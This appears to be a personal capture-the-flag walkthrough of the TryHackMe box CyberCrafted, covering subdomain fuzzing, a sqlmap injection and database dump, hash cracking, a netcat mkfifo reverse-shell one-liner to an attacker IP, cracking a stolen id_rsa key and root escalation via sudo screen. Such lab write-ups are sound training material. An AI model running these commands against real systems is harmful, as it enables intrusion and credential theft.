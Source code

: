 ```yaml
---
title: THM CyberCrafted
date: 2023-09-16 08:01:00 -0800
categories: [Walkthrough, TryHackMe]
tags: [THM, TryHackMe, CTF]
published: true
---
```


## CyberCrafted

Hello. Here is my write up for the TryHackMe box CyberCrafted. It's a medium ranked machine that has an in-development minecraft server that we will try to root. This writeup assumes you have knowledge of basic penetration testing tools but I will go through any of the advanced techniques should I find any.

## enumeration

### nmap

As first I will start off with nmap scans for open ports and services. I use a script that is on my github called [0xscan](https://github.com/0xskar/0xscan). It's just a bash script that automates the port scanning.

Here we find 3 open ports, 22 SSH, 80 HTTP, and a minecraft server on 25565.

Noticing the redirect on the http server we will add cybercrafted.thm to /etc/hosts an scan the domain for subdomains and other information.

### sub-domains

I have the best luck using wfuzz for quick domain scanning here is my goto command for different scenarios only the hidewords or text generally needs to be modified:

- `wfuzz -c -w /usr/share/seclists/Discovery/DNS/bitquark-subdomains-top100000.txt -u http://cybercrafted.thm -H "Host: FUZZ.cybercrafted.thm" --hw 0`

Here we see three domains in the output - with these we can start enumerating files and other subdirectories with gobuster or feroxbuster

```
000000001:   200        34 L     71 W       832 Ch      "www"                                 
000000037:   403        9 L      28 W       287 Ch      "store"                               
000000036:   200        30 L     64 W       937 Ch      "admin"
```

### www.cybercrafted.thm

Using gobuster to scan for specific file extensions and directories

- `gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 -u http://www.cybercrafted.thm -x txt,php,html`

![secret directory](/assets/cybercrafted_01.png)

Here we can see a secret directory with some jpegs, the file sizes look a little strange. Going to download these to my machine.

#### stegcracker herobrine-3.jpeg

Find something here inside of this jpeg but I cant figure out how to decode.

- `IDDOJQWM5BAMEQGIZLBMQQEKTSEEE======`

### store.cybercrafted.thm

running a gobuster scan here we reveal search.php which using sqlmap we find it is vulnerable to sql injection. 

- `sqlmap --wizard`

```
web server operating system: Linux Ubuntu 18.04 (bionic)
web application technology: Apache 2.4.29
back-end DBMS operating system: Linux Ubuntu
back-end DBMS: MySQL >= 5.0.12
banner: '5.7.35-0ubuntu0.18.04.1'
current user: 'root@localhost'
current database: 'webapp'
current user is DBA: False
```

lets enumerate databases

- `sqlmap -u "http://store.cybercrafted.thm/search.php" --method POST --data "search=&submit=" -p search --batch --dump`

![sql map dump](/assets/cybercrafted_02.png)


### hashcat

we use hashcat to identify the hash which is sha-1 raw we can then use it again to crack the hash

- `hashcat -m 100 '88b949dd5cdfbecb9f2ecbbfa24e5974234e7c01' /usr/share/wordlists/rockyou.txt`

![hashcatting](/assets/cybercrafted_03.png)

## getting reverse shell 

using the previous credentials we can login to the admin panel and run some system commpands, probably get a reverse shell onto the system.

start up a netcat listener `nc -nvlp 9001`

then run system command to recieve shell: `rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc IP_ADDR 9001 >/tmp/f`

### escalation

checking the home directory we can see the users dir and the .ssh and id_rsa is accessible. we can copy the contents of the id_rsa to our pc and feed it to ssh2john to get a hash then feed the hash to john to get the password for the rsa file and use the chmod'd 400 id_rsa to ssh into the system as our user.

Once logged into the user check /opt/minecraft for the server flag and a note. Also check the plugin directory and get the user passwords checking the log file.

once we su to cybercrafted `sudo -l` lets us see we can run screen as root.

`sudo screen`

using screen commands we can drop a shell with `control+a` then `c` then get the root flag withing the root directory.

okay, fun box that lets you use some different tools.
